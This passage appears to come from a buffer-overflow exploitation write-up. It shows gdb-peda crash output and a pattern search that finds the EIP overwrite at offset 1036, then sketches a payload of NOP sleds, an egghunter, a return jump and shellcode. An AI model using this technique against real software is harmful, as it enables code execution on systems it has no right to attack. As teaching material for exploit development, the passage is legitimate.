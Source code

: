```
0028| 0xffffc88c ("HAndAn3AnIAneAn4AnJAnfAn5AnKAngAn6AnLAnhAn7AnMAniAn8AnNAnjAn9AnOAnkAnPAnlAnQAnmAnRAnoAnSAnpAnTAnqAnUAnrAnVAntAnWAnuAnXAnvAnYAnwAnZAnxAnyAnzAC%ACsACBAC$ACnACCAC-AC(ACDAC;AC)ACEACaAC0ACFACbAC1ACGACcAC2A"...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41296e41 in ?? ()
gdb-peda$ pattern_search 
Registers contain pattern buffer:
EIP+0 found at offset: 1036
EBP+0 found at offset: 1032
EBX+0 found at offset: 1028
Registers point to pattern buffer:
[ESP] --> offset 1040 - size ~203
Pattern buffer found at:
0x56558008 : offset 1011 - size  989 ([heap])
0x565583e6 : offset  977 - size   34 ([heap])
0xffffc460 : offset    0 - size 2000 ($sp + -0x410 [-260 dwords])
0xffffcc31 : offset  293 - size 1707 ($sp + 0x3c1 [240 dwords])
References to pattern buffer found at:
0xf7fa7d64 : 0x56558008 (/lib32/libc-2.24.so)
0xf7fa7d68 : 0x56558008 (/lib32/libc-2.24.so)
0xf7fa7d6c : 0x56558008 (/lib32/libc-2.24.so)
0xf7fa7d70 : 0x56558008 (/lib32/libc-2.24.so)
0xf7fa7d74 : 0x56558008 (/lib32/libc-2.24.so)
0xf7fa7d78 : 0x56558008 (/lib32/libc-2.24.so)
0xf7fa7d7c : 0x56558008 (/lib32/libc-2.24.so)
0xffffbe48 : 0x56558008 ($sp + -0xa28 [-650 dwords])
0xffffbe50 : 0x56558008 ($sp + -0xa20 [-648 dwords])
0xffffbe64 : 0x56558008 ($sp + -0xa0c [-643 dwords])
0xffffbe84 : 0x56558008 ($sp + -0x9ec [-635 dwords])
0xffffbe94 : 0x56558008 ($sp + -0x9dc [-631 dwords])
0xffffbea0 : 0x56558008 ($sp + -0x9d0 [-628 dwords])
0xffffbec8 : 0x56558008 ($sp + -0x9a8 [-618 dwords])
0xffffbee4 : 0x56558008 ($sp + -0x98c [-611 dwords])
0xffffc348 : 0x56558008 ($sp + -0x528 [-330 dwords])
0xffffc350 : 0x56558008 ($sp + -0x520 [-328 dwords])
0xffffc384 : 0x56558008 ($sp + -0x4ec [-315 dwords])
0xffffc394 : 0x56558008 ($sp + -0x4dc [-311 dwords])
0xffffc3a0 : 0x56558008 ($sp + -0x4d0 [-308 dwords])
0xffffc454 : 0xffffc460 ($sp + -0x41c [-263 dwords])
```

We used here *pattern_arg* and *pattern_search* to find the necessary bytes until overwriting EIP.
Great, so EIP is overwritten with 1036 bytes. Our payload should be constructed like:

	PAYLOAD = NOPS\*800 + EGGHUNTER(38bytes) + NOPS\*198 + EIP(jmp to egghunter) + NOPS\*20 + EGG + EGG + SHELLCODE

The bunch of NOPs will make our payload more reliable and easier to create. Also, the NOPs right before the eggs are important to give space for the shellcode to unpack.
